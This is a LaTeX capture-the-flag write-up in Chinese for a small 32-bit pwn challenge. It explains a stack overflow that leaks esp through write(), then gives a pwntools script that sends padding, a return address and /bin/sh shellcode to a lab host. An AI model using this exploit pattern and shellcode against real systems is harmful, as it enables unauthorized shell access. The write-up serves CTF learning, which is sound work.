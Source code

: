 \documentclass{article}
\begin{document}
    查阅系统调用的资料得知，程序执行了两个函数：
    	\begin{lstlisting}{language=C}
     write(1, esp, 0x14); // 从栈上读20个字节到标准输出（读内存）
     read(0, esp, 0x3c);  // 从标准输入写60个字节到栈上（写内存）
    	\end{lstlisting}
    结合保护程序：
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
    可以使用栈溢出，然后执行shellcode。shellcode只能写到栈上，但栈的地址未知。又因为write函数的存在，观察到ret指令前执行了ADD ESP,0x14，则可以在read输入时计算好padding长度(0x14)以及跳转到的eip地址(mov ECX,ESP)，将最开始存入的esp值通过write函数打印出来，同时修改ret后的eip地址为shellcode地址。脚本如下：
    \begin{itemize}
    	\item 脚本3
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40001)

io.recvuntil("CTF:")

io.send(b'a'*0x14 + p32(0x08048087))

stack_address = u32(io.recv(4))

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(b'a'*0x14 + p32(stack_address + 0x14) + shellcode)

io.interactive()
    	\end{lstlisting}
    \end{itemize}
    运行结果如下，得到flag。
    \begin{figure}[H]
 	\begin{center}
	   		\includegraphics[width=0.8\textwidth]{4.png}
	\end{center}
    \end{figure}
 
\end{document}
